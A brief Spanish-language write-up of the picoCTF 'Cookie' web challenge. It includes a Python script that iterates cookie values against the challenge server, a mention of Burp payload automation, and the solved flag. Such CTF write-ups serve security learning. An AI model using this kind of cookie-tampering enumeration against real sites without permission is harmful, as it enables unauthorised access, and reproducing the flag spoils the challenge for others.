 # Cookie


## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)
## Pistas


## Solucion
┌──(kali㉿kali)-[~]
└─$ cat exploit.py                                                
import requests

url = "http://mercury.picoctf.net:6418/check"

for i in range(21):
        cookies = {"name":f"{i}"}
        print(cookies)
        r=requests.get(url, cookies=cookies)
        print(r.text)

ejecutamos el anterior script de python hasta que nos de la bandera
o usando la herramienta burp usamos la opcion de payloads para automatizar las respuestas


## Bandera
picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
## Notas adicionales


## Referencias
